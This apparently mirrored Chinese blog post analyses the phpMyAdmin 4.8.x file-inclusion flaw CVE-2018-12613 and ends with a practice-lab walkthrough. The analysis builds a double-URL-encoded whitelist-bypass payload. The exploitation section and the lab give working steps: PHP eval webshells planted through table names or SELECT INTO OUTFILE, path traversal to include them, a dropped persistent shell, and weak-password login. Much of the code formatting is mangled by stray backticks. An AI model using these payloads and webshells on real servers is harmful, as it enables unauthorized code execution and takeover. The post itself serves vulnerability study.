






# CVE-2018-12613 总结 - w1hg - 博客园

> 原文：[`www.cnblogs.com/w1hg/p/14377858.html`](https://www.cnblogs.com/w1hg/p/14377858.html)

# 1.漏洞基础介绍

# 1.1 漏洞背景

phpMyAdmin 是一个以 PHP 为基础，以 Web-Base 方式架构在网站主机上的 MySQL 的数据库管理工具，让管理者可用 Web 接口管理 MySQL 数据库。借由此 Web 接口可以成为一个简易方式输入繁杂 SQL 语法的较佳途径，尤其要处理大量资料的汇入及汇出更为方便。其中一个更大的优势在于由于 phpMyAdmin 跟其他 PHP 程式一样在网页服务器上执行，但是您可以在任何地方使用这些程式产生的 HTML 页面，也就是于远端管理 MySQL 数据库，方便的建立、修改、删除数据库及资料表。也可借由 phpMyAdmin 建立常用的 php 语法，方便编写网页时所需要的 sql 语法正确性。

ChaMd5 安全团队披露了他们发现的一个 phpMyAdmin 文件包含漏洞，并且演示了如何将本地文件包含升级至远程命令执行。随后，phpmyadmin 在最新版本修复了这个严重级别的漏洞。

# 1.2 漏洞介绍

攻击者利用发现在服务器上包含（查看和潜在执行）文件的漏洞。该漏洞来自一部分代码，其中页面在 phpMyAdmin 中被重定向和加载，以及对白名单页面进行不正确的测试。

攻击者必须经过身份验证，但在这些情况下除外：

$ cfg ['AllowArbitraryServer'] = true：攻击者可以指定他/她已经控制的任何主机，并在 phpMyAdmin 上执行任意代码；

$ cfg ['ServerDefault'] = 0：这会绕过登录并在没有任何身份验证的情况下运行易受攻击的代码。

影响版本：phpMyAdmin 4.8.0 和 4.8.1

# 2.漏洞原理分析

有了上面的基础知识后，我们就可以进入本篇文章的重头环节——漏洞的原理分析。

## 2.1 源码分析

该漏洞在 phpMyAdmin4.8.0 和 4.8.1 中存在，这里以 phpMyAdmin 的 4.8.1 版本为例进行分析。首先我们要获取 phpMyAdmin4.8.1 的源码，当然没有源码也并不妨碍你读懂该篇文章，与漏洞相关的重要的代码都已经显示在文章中。将我们的源码使用 seay(代码审计工具)打开。因为我们已经明确该漏洞是文件包含漏洞，所以直接在 seay 中全局搜索 include 关键字，发现代码中存在大量的 include。但是大部分的 include 都是类似于下面这种

```
include'libraries/db_common.inc.php';
```

 `将包含的文件名或者路径写死在程序中，也就是说用户无法控制包含的文件也就不存在文件包含漏洞。我们主要是寻找用户可以控制文件路径的 include 函数。本文讨论的漏洞出现 index.php 文件的在下面的代码中

```
include$_REQUEST['target'];
```

 `从代码中可以看出，他会从客户端接收数据，然后将数据指定的文件包含到程序中，显然我们可以控制包含的文件。这便是我们要执行的**目标代码**。

接着仔细查看该段代码出现的文件内容，查看如何能够触发文件包含，也就是说如何能够让程序执行到存在文件包含漏洞的代码。从目标代码往前查看，寻找 die、exit 这些能够导致退出脚本的语句。我们在代码中找到了如下的内容

```
if(!empty($_REQUEST['target'])
```

 ````
&&is_string($_REQUEST['target'])
```

 ````
&&!preg_match('/^index/',$_REQUEST['target'])
```

 ````
&&!in_array($_REQUEST['target'],$target_blacklist)
```

 ````
&& `Core`::checkPageValidity($_REQUEST['target'])
```

 ````
){
```

 ````
include$_REQUEST['target'];
```

 ````
`    exit`;
```

 ````
}
```````````  ```可以看到我们要执行的目标代码本身位于一个 if 判断中，该 if 判断中存在五个条件

| **条件编号** | **条件内容** |
| --- | --- |
| 条件 1 | !**empty**($_REQUEST[‘target’]) |
| 条件 2 | **is_string**($_REQUEST[‘target’]) |
| 条件 3 | !**preg_match**(’/^index/’, $_REQUEST[‘target’]) |
| 条件 4 | !**in_array**($_REQUEST[‘target’], $target_blacklist) |
| 条件 5 | Core::checkPageValidity($_REQUEST[‘target’]) |

必须要同时满足上面的 5 个条件才可以执行我们的目标代码。条件 1 表示来自客户端的传参的 target 字段值不可以为空；条件 2 表示 target 字段的值必须要是字符串；条件 3 表示 target 字段的值不可以以 index 开头。在条件 4 中出现了一个新的变量$target_blacklist，在条件 5 中有一个函数 Core::checkPageValidity。接下来我们要研究这一个变量和一个函数。

根据该变量的命名可以推测，该变量应该是一个黑名单。在程序中找到了该变量的定义如下

```
$target_blacklist=array(
```

 ````
'import.php','export.php'
```

 ````
);
`````  ```可以看到变量$target_blacklist 是一个数组，里面存放的是两个文件名。也就是说该变量确实是一个黑名单，条件 4 是判断 target 的值是否在黑名单中，如果在黑名单中 in_array 函数就会为真，而!in_array 也就为假。整个的 if 就会不成立，所以我们输入的 target 的内容不可以为 import.php 或者 export.php。

弄清了变量的意思，接下来要看看函数

```
`Core`::`checkPageValidity`
```

的作用，在程序中找到该函数的定义如下

```
classCore
```

 ````
{
```

 ````
//...
```

 ````
publicstaticfunctioncheckPageValidity(&$page,array$whitelist=[])
```

 ````
{
```

 ````
if(empty($whitelist)){
```

 ````
$whitelist= `self`::$goto_whitelist;
```

 ````
}
```

 ````
if(!isset($page)||!is_string($page)){
```

 ````
returnfalse;
```

 ````
}
```

```
if(in_array($page,$whitelist)){
```

 ````
returntrue;
```

 ````
}
```

```
$_page=mb_substr(
```

 ````
$page,
```

 ````
0,
```

 ````
mb_strpos($page.'?','?')
```

 ````
);
```

 ````
if(in_array($_page,$whitelist)){
```

 ````
returntrue;
```

 ````
}
```

```
$_page=urldecode($page);
```

 ````
$_page=mb_substr(
```

 ````
$_page,
```

 ````
0,
```

 ````
mb_strpos($_page.'?','?')
```

 ````
);
```

 ````
if(in_array($_page,$whitelist)){
```

 ````
returntrue;
```

 ````
}
```

```
returnfalse;
```

 ````
}
```

 ````
//...
```

 ````
}
`````````````````````````````````  ```该函数是 Core 类的一个静态方法。代码的作者在代码中对该函数的功能进行了描述，即该函数会根据白名单对 target 传参进行审查，如果 target 的值在名单中该函数就会返回 true。其中白名单存放在$whitelist 变量中。

接下来我们来仔细的分析一下该函数的处理逻辑。可以看到在该函数中存在 5 个 if 判断，分别是

| **判断编号** | **判断内容** |
| --- | --- |
| 判断 1 | **if**(**empty**($whitelist)) |
| 判断 2 | **if**(!**isset**($page)&#124;&#124;! **is_string**($page)) |
| 判断 3 | **if**(**in_array**($page, $whitelist)) |
| 判断 4 | **if**(**in_array**($page, $whitelist)) |
| 判断 5 | **if**(**in_array**($page, $whitelist)) |

因为在函数中定义了如果$whitelist 在传参的时候为缺省，就会直接置为空值。

```
publicstaticfunctioncheckPageValidity(&$page,array$whitelist=[])
```

所以第一个 if 判断是在函数是对白名单进行初始化操作，原始的白名单内容存放在变量$goto_whitelist 中，该变量的值为

```
publicstatic$goto_whitelist=array(
```

 ````
'db_datadict.php',
```

 ````
'db_sql.php',
```

 ````
'db_events.php',
```

 ````
//......
```

 ````
'transformation_overview.php',
```

 ````
'transformation_wrapper.php',
```

 ````
'user_password.php',
```

 ````
);
```````````  ```在执行完第一个判断后，变量$whitelist 中就存放了白名单的内容。判断 1 只是完成白名单的初始化操作，与我们传参的内容无关。接着看判断 2，

```
if(!isset($page)||!is_string($page))
```

 `该判断是用来检测我们 target 字段的值是否不为空且类型为字符串。后面三个判断都是检测 taget 字段的值是否在白名单中，如果在白名单中该函数会返回 true。

```
if(in_array($_page,$whitelist))
```

 `但是**关键点**在于如果不在白名单中该函数并没有直接返回 false，而是对 target 字段的值进行了处理然后再进行匹配。

判断 3 是直接判断 target 字段的值是否在白名单中，如果不在白名单中会执行下面的代码

```
$_page=mb_substr(
```

 ````
$page,
```

 ````
0,
```

 ````
mb_strpos($page.'?','?')
```

 ````
);
```````  ```该段代码会截取传参之前的内容，比如我们传入的内容是 index.php?id=1,经过该函数处理后会变成 index.php。然后将截取到的文件名与白名单进行匹配，也就是判断 4 执行的内容。如果匹配成功返回 true，匹配失败接着对 target 的值进行处理，会执行下面的代码

```
$_page=urldecode($page);
```

 ````
$_page=mb_substr(
```

 ````
$_page,
```

 ````
0,
```

 ````
mb_strpos($_page.'?','?')
```

 ````
);
````````  ```该段代码会对 target 的值进行 URL 解码，然后对解码后的内容截取？传参之前的内容。在将截取到的内容与白名单进行匹配，也就是执行判断 5 的内容，这是最后一个判断。如果该判断成立会返回 true。所有的判断都不成立就会返回 false。

## 2.2 构造 payload

### 2.2.1 设想一:target=db_sql.php?/…/

如果我们想成功执行

```
include$_REQUEST['target'];
```

 `必须要使我们的 target 传参同时满足以下 5 个条件

| **条件编号** | **条件内容** | **说明** |
| --- | --- | --- |
| 条件 1 | !**empty**($_REQUEST[‘target’]) | target 的值不可以为空 |
| 条件 2 | **is_string**($_REQUEST[‘target’]) | target 的值的类型必须为字符串 |
| 条件 3 | !**preg_match**(’/^index/’, $_REQUEST[‘target’]) | target 的值不能以 index 开头 |
| 条件 4 | !**in_array**($_REQUEST[‘target’], $target_blacklist) | target 的值不能为 import.php, export.php |
| 条件 5 | Core::checkPageValidity($_REQUEST[‘target’]) | target 的值必须能够成功匹配白名单 |

在条件 5 的函数中又存在 5 条判断

| **判断编号** | **判断内容** | **说明** |
| --- | --- | --- |
| 判断 1 | **if**(**empty**($whitelist)) | 白名单不可以为空 |
| 判断 2 | **if**(!**isset**($page)&#124;&#124;!**is_string**($page)) | target 的值不可以为空且类型为字符串 |
| 判断 3 | **if**(**in_array**($page, $whitelist)) | 将原生的 target 值与白名单进行匹配 |
| 判断 4 | **if**(**in_array**($page, $whitelist)) | 将去掉传参的 targte 的值与白名单进行匹配 |
| 判断 5 | **if**(**in_array**($page, $whitelist)) | 将 URL 解码并去掉传参的 target 的值域白名单进行匹配 |

前两条判断可以很顺利的通过，在第三条判断中不存在操作空间，因为他会直接将我们传参的内容与白名单进行匹配。在第四条判断中，我们可以构想如下的 payload

```
`target=db_sql.php?/../`
```

```
该 payload 表示的路径是当前工作目录，如果该 payload 可以在 include 中成功的被包含，那么我们就可以以当前目录为依据完成文件包含。其中 db_sql.php 是白名单中的文件，显然该 target 的值可以顺利的通过前 4 个条件，
```

```
!empty($_REQUEST['target'])
```

 ````
&&is_string($_REQUEST['target'])
```

 ````
&&!preg_match('/^index/',$_REQUEST['target'])
```

 ````
&&!in_array($_REQUEST['target'],$target_blacklist)
``````  ```在执行第 5 个条件的时候

```
&& `Core`::checkPageValidity($_REQUEST['target'])
```

 `进入 checkPageValidity 函数函数中执行 5 个判断，

```
if(empty($whitelist))
```

 ````
if(!isset($page)||!is_string($page))
```

 ````
if(in_array($page,$whitelist))
```

 ````
if(in_array($page,$whitelist))
```

 ````
if(in_array($page,$whitelist))
```````  ``判断 1 与我们输入的内容无关，判断 2 显然可以顺利通过，

```
if(empty($whitelist))
```

 ````
if(!isset($page)||!is_string($page))
````  ``在执行判断 3 与白名单进行匹配的时候会匹配失败，然后执行判断 4，判断 4 会去除?之后的内容，target 的值从 db_sql.php?/…/变成了 db_sql.php，与白名单匹配成功了，直接返回 true，也就让五个条件都成立，

```
!empty($_REQUEST['target'])
```

 ````
&&is_string($_REQUEST['target'])
```

 ````
&&!preg_match('/^index/',$_REQUEST['target'])
```

 ````
&&!in_array($_REQUEST['target'],$target_blacklist)
```

 ````
&& `Core`::checkPageValidity($_REQUEST['target'])
```````  ```然后执行我们的目标代码。
在执行 checkPageValidity 函数的时候并没有修改 target 的值，在对 target 的值进行处理后再匹配时，使用 _page 变量保存的处理的后的值，而没有直接修改 target 的值，所 target 的内容依据是我嗯输入的 db_sql.php?/…/。但是 include 所使用的文件的路径中不可以包含特殊字符，而我们使用了?,所以依旧无法完成文件包含。

### 2.2.2 设想二:target=db_sql.php%253f/…/

虽然设想一没有完成文件包含。但是我们可以利用判断 5 中会进行 URL 解码来进行文件的包含。当我们使用 GET 进行传参的时候浏览器会对 GET 传递的数据进行 URL 编码，数据到达服务器后会进行 URL 解码。比如我们使用 GET 传递一个单引号(’)，浏览器会将其编码为%27，然后传递给服务器端，服务器接收到数据后会进行 URL 解码，获得传递的值(’’)。但是如果我们手动在数据包中的将%27 修改为%2527，那么服务器端接收到%2527 的时候会进行一个 URL 解码，解码后变成了%27(%25 是%的 URL 编码)。而站点的代码中又调用了 urldecode 函数对传参的内容进行 URL 解码，在第二次解码后，我们传递的内容变成了单引号(%27 是单引号的 URL 编码)。也就是说客户端发送来的数据服务端进行了两次 URL 解码。

而我们这里的判断 5 中就调用 urldecode 函数。因此我们可以尝试构造下面的 payload

```
`target=db_sql.php%253f/../`
```

首先服务器接收到该传参后进行一次 URL 解码，变成

```
`target=db_sql.php%3f/../`
```

该值可以顺利的通过前 4 个条件的判断，

```
!empty($_REQUEST['target'])
```

 ````
&&is_string($_REQUEST['target'])
```

 ````
&&!preg_match('/^index/',$_REQUEST['target'])
```

 ````
&&!in_array($_REQUEST['target'],$target_blacklist)
``````  ```然后进入 checkPageValidity 函数，在执行判断 3、4 的时候均匹配失败(判断 3 匹配原声 target 的值，判断 4 匹配去掉传参后的 target 的值)，于是执行判断 5，在条件 5 中会对该值进行 URL 解码，变成了

```
`target`=`db_sql`.`php`?/../
```

 ````
#%3f 是?的 URL 编码
````  ``解码完成后，会去除去除传参，最终变成了

```
`target`=`db_sql`.`php`
```

能够成功的匹配白名单。因此条件 5 也成立，

```
&& `Core`::checkPageValidity($_REQUEST['target'])
```

 `便能够执行目标代码

```
include$_REQUEST['target'];
```

 `虽然在 checkPageValidity 函数中对 target 的值进行了一系列处理，但是并没有影响到 target 真正的值，因为在使用处理后的 target 进行白名单匹配的时候，都是使用了一个新的变量接受 target 的值，而并没有直接影响 target 本来的值，所以 target 的值依旧为

```
`target=db_sql.php?/../`
```

现在 target 值并没有携带 include 无法接受的特殊符号，因此该 payload 可以成功跳回当前目录，我们就可以在后面添加任意的路径来包含任意的文件。

# 3.漏洞利用

知道了站点存在文件包含漏洞，也明确了绕过过滤的办法，接下来要解决的就是如何利用该漏洞。也可以基本设想就是在站点上传一个木马文件，然后通过文件包含漏洞包含该文件，也就是登录执行了木马程序，我们也就可以成功的 getshell。

有了上面的基本设想，便可以开始下面的操作了。首先这里是一个后台文件包含的漏洞，因此首先我们需要登录 phpMyAdmin。在这里我们无法上传文件，但是我们可以利用 MySQL 的数据在站点写入木马。

首先要知道 MySQL 中存放的数据都是以文件的形式存放在服务器上的，我们可以在服务器上创建一个表，该表包含只有一个字段，而这个字段名就是一个木马程序

```
<?php `@`eval($_GET['cmd']);?>
```

 `或者是

```
<?phpfile_put_contents('1.php','<?php eval($_REQUEST[cmd])?>');?>
```

 `当我们将表的字段名设置为木马后，数据库会创建一个文件，文件中会包含该句代码，也就相当于我们在站点写入了一木马文件。这里使用第一个程序，创建一个表然后将表的字段名设置为木马

```
CREATETABLE``test``.``wjbh``(`<`?php` @eval(`$_GET`['cmd']);`?`>`INT);
```

 `完成了木马文件的写入后，我们要使用该漏洞来包含我们的木马文件。首先我们将页面的 URL 修改为

```
`http://ip/phpmyadmin/index.php?target=db_sql.php%253f/../../../../../../../../phpstudy/mysql/data/test/wjbh.frm&cmd=phpinfo();`
```

因为漏洞是出现在 index.php 文件中，我们对该文件进行传参

```
`target=db_sql.php%253f/../../../../../../../../phpstudy/mysql/data/test/wjbh.frm&cmd=phpinfo()`
```

当 index.php 接收到 target 的传参的时候，会进行过滤。根据我们前面的分析，这里所使用的路径可以绕过站点的过滤，顺利的执行到 include 代码。当 include 包含该文件的时候会根据文件路径去寻找文件。这里的

```
`db_sql.php%253f/..`
```

表示的就是当前的工作目录，然后不断的通过’…'跳到上一级目录，无论跳了多少次，最多也只会回到根目录，因此我们可以多跳几次确保进入根目录中，然后在加上木马文件的路径

```
`phpstudy`/`mysql`/`data`/`test`/`wjbh`.`frm`
```

```
#该路径是存放我们之前创建的表的文件
```

当程序包含了我们的木马程序后，会执行我们的木马程序，我们在 URL 中又对木马程序进行了传参

```
`cmd`=phpinfo()
```

 `木马程序会将我们传参的内容当作代码执行，因此我们访问该 URL 后页面会显示 phpinfo 的内容，显示如下

说明该木马可以成功的执行，但是要我们要执行该木马文件需要登录 phpMyAdmin，登录的步骤会给我们的后续操作代码不变，我们希望可以直接访问木马文件。因此我们可以控制该木马写入一个新的木马文件，将 URL 修改为

```
`http://ip/phpmyadmin/index.php?target=db_sql.php%253f/../../../../../../../../phpstudy/mysql/data/zgj/wjbh.frm&cmd= file_put_contents('8.php','<?php @eval($_REQUEST[cmd])?>');`
```

也就是想木马文件传参

```
file_put_contents('1.php','<?php @eval($_REQUEST[cmd])?>');
```

 `木马文件会执行我们传递的参数，然后会在站点的根目录下写入一个新的木马文件，我们可以通过下面的 URL 直接访问到该木马文件。

```
`http://ip/phpmyadmin/1.php`
```

有了该木马文件后，我们可以使用菜刀或者其他工具链接该站点，直接拿下站点的服务器，为所欲为。

4.实战利用：
墨者学院 phpMyAdmin 后台文件包含分析溯源

网址：[**https://www.mozhe.cn/bug/detail/264**](https://www.mozhe.cn/bug/detail/264)

我们进入靶场，并开启靶场，可以进行该题目


直接输入 url，如图所示，219.153.49.228:40477，这样就可以进如该题目，进入后发现是一个 phpmyadmin 的后台登录界面



我们考虑使用弱口令进行登录（万能密码也可以），弱口令（常见的 root，admin,test）

本题是 root 和 root，进入后可以发现：

**

它的版本是 4.8.1，符合 CVE-2018-12613 漏洞，所以我们直接考虑用 2 种方法进行做题

方法 1，构造 payload，直接做题，原理及介绍在上面都有

?target=db_sql.php%253f/../../../../key.txt

至于为什么是在 index.php 下构造，用%253f，而不是?,原因是


如图所示结果是：


方法 2，使用 sql 语句，一句话木马，菜刀连接

我们在在上面一栏中的功能栏中，可以发现有一个 sql，我们打开后可以发现：


我们构造 sql 语句，将一句话木马输入其中

select into 的意思是通过 SQL，您可以从一个表复制信息到另一个表。

SELECT INTO 语句从一个表复制数据，然后把数据插入到另一个新表中。

而 outfile 的意思是输出文件，我们输入后面的那个文件，1.php 的意思是那个一句话木马，也就是<?php eval($_POST[giao]);?>

至于为什么是/var/www/html 目录下，大家可以看一下我的 linux 的各个目录的介绍


我们可以直接用蚁剑进行连接，url 是 url/1.php，也就是如下图所示：

 

连接成功后，我们可以发现：

 

我们逐次查看各级目录，在根目录下可以发现一个 key.txt 的文件，所以我们打开这个 key.txt 的文件就是我们此题的答案

 

key.txt 的内容如下，也就是本题的答案，直接输入即可完成此题

 ``````````````````````````````````````````````